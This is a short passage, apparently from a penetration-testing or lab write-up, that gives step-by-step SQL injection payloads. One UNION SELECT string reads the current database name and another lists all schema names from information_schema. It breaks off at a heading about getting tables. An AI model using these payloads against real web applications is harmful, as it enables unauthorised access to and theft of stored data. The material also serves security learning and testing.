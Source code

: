 ![](../../attachment/42aa466a7ef7b8c67c863c860d9b67f2.png)

### Get current database's name

```bash
'UNION SELECT ALL NULL,NULL, database() -- - 
```

![](../../attachment/cd572f15d9f5410bcd7faf18eec3af65.png)

### Get databases

```bash
'UNION SELECT all NULL,NULL, schema_name from information_schema.schemata -- -
```

![](../../attachment/9af0c7e26de0ecb86773d82ff0e1c305.png)

### Get tables from database

